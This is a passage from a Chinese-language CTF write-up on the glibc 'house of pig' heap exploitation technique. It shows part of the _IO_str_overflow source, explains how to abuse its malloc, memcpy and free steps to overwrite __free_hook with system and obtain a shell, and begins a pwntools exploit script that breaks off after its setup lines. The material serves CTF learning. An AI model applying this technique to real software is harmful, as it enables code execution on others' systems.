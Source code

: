            free (old_buf);
           /* Make sure _IO_setb won't try to delete _IO_buf_base. */
           fp->_IO_buf_base = NULL;
         }
       memset (new_buf + old_blen, '\0', new_size - old_blen);
     _IO_setb (fp, new_buf, new_buf + new_size, 1);
      fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
      fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
      fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
      fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
    
      fp->_IO_write_base = new_buf;
      fp->_IO_write_end = fp->_IO_buf_end;
    }
    }
    if (!flush_only)
        *fp->_IO_write_ptr++ = (unsigned char) c;
      if (fp->_IO_write_ptr > fp->_IO_read_end)
        fp->_IO_read_end = fp->_IO_write_ptr;
      return c;
    }
    ```
    
    分析源码，IO\_str\_overflow 函数功能大概是这样的：
    
    首先是计算了 \_IO\_FILE 结构体中缓冲区的长度 len = \_IO\_buf\_end - \_IO\_buf\_base，然后使用 malloc 申请一块空间，这块空间的大小为 len \* 2 + 100，然后调用了 memcpy 函数将**old\_buf**中的内容复制到**new\_buf**中，最后调用 free，其参数是 old\_buf
    
    那么我们便有以下构造思路：
    
    计算好`len`的值好让`malloc`能够分配到 tcache 中伪造的 fake chunk，随后让`_old_buf`指向一个写有`system`函数地址的空间，然后通过`memcpy`函数将其复制到`__free_hook`中，再让`_old_buf`开头写有`/bin/sh`即可执行`system("/bin/sh")`。
    

## 例题：xctf final house\_of\_pig

这道题是用 c++ 编写的，本人不是很看得懂伪代码 555，所以这里搬运一下其他师傅的文章

[house of pig 一个新的堆利用详解](https://www.anquanke.com/post/id/242640)

[glibc 2.31 pwn——house of pig 原题分析与示例程序](https://blog.csdn.net/qq_54218833/article/details/128575508?ops_request_misc=%7B%22request%5Fid%22%3A%22169789028516800185840343%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=169789028516800185840343&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-128575508-null-null.142^v96^pc_search_result_base2&utm_term=House%20of%20pig%E4%BE%8B%E9%A2%98&spm=1018.2226.3001.4187)

[House of Pig - CTF Wiki](https://docs.aiitoj.cn/pwn/linux/user-mode/heap/ptmalloc2/house-of-pig/)

exp 如下

```plain
from pwn import *

context.log_level = 'debug'

io = process('./pig')
# io = remote('182.92.203.154', 35264)
elf = ELF('./pig')
libc = elf.libc

rl = lambda    a=False        : io.recvline(a)
ru = lambda a,b=True    : io.recvuntil(a,b)
rn = lambda x            : io.recvn(x)
sn = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b            : io.sendafter(a,b)
sla = lambda a,b        : io.sendlineafter(a,b)
irt = lambda            : io.interactive()
```